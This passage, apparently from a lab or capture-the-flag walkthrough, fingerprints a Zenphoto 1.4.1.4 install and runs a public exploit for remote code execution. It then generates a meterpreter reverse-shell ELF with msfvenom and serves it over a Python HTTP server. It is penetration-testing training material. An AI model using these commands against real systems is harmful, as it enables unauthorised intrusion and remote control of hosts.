 Enumerating the version of the software, we find version **1.4.1.4**:

```
kali@kali:~$ curl -s 192.168.120.83/test/ | tail


Powered by <a href=""http://www.zenphoto.org"" title=""A simpler web album""><span id=""zen-part"">zen</span><span id=""photo-part"">PHOTO</span></a></div>


</body>
</html>

<!-- zenphoto version 1.4.1.4 [8157] (Official Build) THEME: default (index.php) GRAPHICS LIB: PHP GD library 2.0 { memory: 128M } PLUGINS: class-video colorbox deprecated-functions hitcounter security-logger tiny_mce zenphoto_news zenphoto_sendmail zenphoto_seo  -->
<!-- Zenphoto script processing end:0.0715 seconds -->
kali@kali:~$
```

## Exploitation

### Remote Code Execution

This version is vulnerable to a [public exploit](http://www.exploit-db.com/exploits/18083/) which we can use to gain remote code execution on the target:

```
kali@kali:~$ locate 18083.php
...
/usr/share/exploitdb/exploits/php/webapps/18083.php
kali@kali:~$
kali@kali:~$ php /usr/share/exploitdb/exploits/php/webapps/18083.php 192.168.120.83 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

zenphoto-shell#
```

### Reverse Shell

To obtain a reverse shell, we will generate a malicious ELF file, host it with a Python HTTP server, and download it to the target machine.

```
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.118.3 LPORT=443 -f elf > shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

kali@kali:~$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```
